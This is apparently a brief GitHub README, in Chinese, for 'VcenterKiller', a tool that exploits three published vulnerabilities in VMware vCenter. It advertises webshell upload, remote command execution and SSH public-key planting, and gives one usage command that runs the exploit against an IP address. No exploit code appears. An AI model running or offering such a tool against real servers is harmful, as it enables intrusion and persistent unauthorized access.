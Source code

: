 # VcenterKiller
一款针对Vcenter的综合利用工具，包含目前最主流的CVE-2021-21972、CVE-2021-21985以及CVE-2021-22205，提供一键上传webshell，命令执行或者上传公钥使用SSH连接
使用方式：./main.exe -u https://192.168.1.1 -m 21985 -c whoami

